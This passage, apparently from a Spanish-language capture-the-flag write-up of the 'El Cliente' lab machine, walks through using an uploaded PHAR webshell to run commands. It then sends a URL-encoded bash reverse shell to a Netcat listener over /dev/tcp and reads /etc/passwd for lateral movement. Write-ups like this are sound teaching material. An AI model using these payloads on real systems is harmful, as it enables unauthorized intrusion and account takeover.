 * Una vez guardado, verifico su ubicación en el servidor.

![](assets/img/thl-writeup-elcliente/elcliente3_3.png)

* Para ejecutar comandos, accedo al archivo y utilizo el parámetro cmd con el comando deseado.

![](assets/img/thl-writeup-elcliente/elcliente3_4.png)

* Confirmada la ejecución remota de código, me pongo a la escucha con Netcat y la ejecuto desde la webshell.

```terminal
/home/kali/Documents/thl/elcliente:-$ nc -lnvp 4321
	listening on [any] 4321 ...

http://admin.arka.thl/uploads/67c8d5012e7c5_shell.phar?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.0.99%2F4321%200%3E%261%22

	... connect to [192.168.0.99] from (UNKNOWN) [192.168.0.58] 39150
bash-5.2$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

---
## Lateral Movement

```terminal
bash-5.2$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
kobe:x:1000:1000:kobe:/home/kobe:/bin/bash
scott:x:1001:1001:Scott,,,:/home/scott:/bin/bash
```
